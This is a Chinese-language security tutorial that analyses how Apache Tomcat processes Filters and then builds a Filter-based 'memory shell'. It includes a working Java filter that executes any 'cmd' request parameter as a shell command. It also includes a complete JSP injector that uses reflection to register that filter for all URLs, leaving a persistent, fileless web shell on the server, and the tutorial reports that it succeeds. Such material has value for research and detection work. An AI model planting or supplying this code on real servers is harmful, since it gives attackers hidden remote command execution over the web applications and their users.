# Tomcat内存马之Filter

## 前言

关于 Filter 的知识，在前面 [Filter](../../01-JavaWeb基础/2-Filter/Filter.md) 章节已经学习过，这里不再赘述，直接进入分析环节。

## Filter流程分析

先编写一个简单的 Filter 实现类
```java
package com.servlet.study;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/21 10:41
 */
@WebFilter(filterName = "FilterTest", urlPatterns = {"/*"})
public class FilterTest implements Filter {

    public void init(FilterConfig filterConfig) throws ServletException {

    }

    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        try{
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                servletResponse.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        // 使下一个 Filter 能够继续执行
        filterChain.doFilter(servletRequest,servletResponse);
    }

    public void destroy() {

    }
}
```

访问后带上参数执行命令


在`doFilter()`处方法打上断点，看看调用栈


从`StandardWrapperValve#invoke()`方法跟起


首先通过`ApplicationFilterFactory.createFilterChain()`方法创建了一个`ApplicationFilterChain`类型对象，跟进`createFilterChain()`方法


初始化了`ApplicationFilterChain`对象，继续往下走


接下来获取到了`StandardContext`类对象`context`，并通过`context.findFilterMaps()`方法拿到了`filterMaps`数组，继续往下走


在 if 条件中，请求路径和`filterMap`设置的规则进行匹配，如果满足则进入 if 条件中，接着根据`filterMap`对象中存储的`filter`名称在`StandardContext`类的`filterConfigs`寻找`filterConfig`，如果不为空则通过`addFilter()`方法添加到`filterChain`的属性中


`addFilter()`方法源码如上图所示，代码逻辑就是进行了去重、扩容并添加`filterConfig`。

最后回到`StandardWrapperValve`类中往下走


跟进`filterChain.doFilter()`方法中


继续跟进`internalDoFilter()`方法


创建了`ApplicationFilterConfig`类对象`filterConfig`，然后通过`filterConfig.getFilter()`方法取出`filter`，接着调用`filter.doFilter()`方法，跟进后就是我们编写的恶意类`FilterTest`


至此步骤算是走完了，总结一下流程：

1. 通过`ApplicationFilterFactory.createFilterChain()`方法初始化`ApplicationFilterChain`对象；
   - 初始化空的`ApplicationFilterChain`对象；
   - 获取`StandardContext`类对象，并中`StandardContext`类对象中取出`FilterMaps`数组,`FilterMaps`数组中的`FilterMap`存储名称和匹配规则；
   - 根据`FilterMap`的名称在`StandardContext`类的`filterConfigs`中查找，如果不为空则添加到`filterChain`对象的属性中；
2. 执行`filterChain#doFilter()`方法进入编写的恶意实现类`FilterTest`的`doFilter()`方法中执行代码。

接下来再看看`Filter`的初始化加载流程，把断点打在类名处


看看调用栈


跟进`filterStart()`方法


遍历 Map 对象`filterDefs`并获取到`entry.getValue()`，作为参数传入初始化的`ApplicationFilterConfig`对象`filterConfig`，然后通过`put()`方法把`filterConfig`添加到`filterConfigs`中。

至此我们知道和 filter 有关的三个字段分别为：`filterMaps`、`filterDefs`和`filterConfigs`

## Filter内存马的实现

我们先总结一下这三个字段存储的内容

### filterMaps



可以看到在`filterMaps`中以数组的方式存储着 filter 的名称和路径映射信息，其中`dispatcherMapping`、`filterName`和`urlPatterns`是必须的。

### filterDefs



`filterDefs`以键值对的方式存储`filterDef`，`filterDef`为 Map 对象，value 存储着重要的`filter`、`filterClass`和`filterName`。

### filterConfigs



`filterConfigs`存储着当前的上下文`StandardContext`（WEB 应用），`filter`对象和`filterDef`等等信息。

经过前面的分析，我们可以通过控制上述三个属性的内容达到动态添加恶意 Filter 的目的， 思路如下：

1. 编写恶意的 Filter 实现类；
2. 获取`StandardContext`对象；
3. 利用`FilterDef`对`filter`进行封装；
4. 创建`FilterMap`，将`filterName`和`urlPatterns`进行绑定（因为 Filter 是按照先后顺序进行调用，所以我们最好把恶意 Filter 放到最前面）
5. 使用`ApplicationFilterConfig`封装`filterDef`，然后将其添加到`filterConfigs`中

最后 Filter 内存马实现如下：
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %><%--
  Created by dotast on 2022/10/31 16:51
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    class FilterTest implements Filter {

        public void init(FilterConfig filterConfig) throws ServletException {

        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            String cmd = servletRequest.getParameter("cmd");
            try{
                if(cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes, 0, a);
                    }
                    servletResponse.getWriter().write(new String(bao.toByteArray()));
                }
            }catch (Exception e){
                e.printStackTrace();
            }
            // 使下一个 Filter 能够继续执行
            filterChain.doFilter(servletRequest,servletResponse);
        }

        public void destroy() {

        }
    }
%>

<%
    // 获取StandardContext对象
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();

    String filterName = "FilterTest";
    // 利用FilterDef对filter进行封装
    FilterTest filterTest = new FilterTest();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filterTest);
    filterDef.setFilterName(filterName);
    filterDef.setFilterClass(filterTest.getClass().getName());
    standardContext.addFilterDef(filterDef);

    // 创建FilterMap，将filterName和urlPatterns进行绑定
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(filterName);
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);

    // 封装filterConfig和filterDef到filterConfigs
    Field field_filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    field_filterConfigs.setAccessible(true);
    Map filterConfigs = (Map) field_filterConfigs.get(standardContext);

    // 利用反射创建FilterConfig，并且将filterDef和standardContext作为参数进行传入进行封装filterDe
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

    // 添加到filterConfigs中
    filterConfigs.put(filterName,applicationFilterConfig);
%>
```

访问上传的内存马文件路径使其执行代码，注册内存马


接着访问其他路由都可以成功执行命令
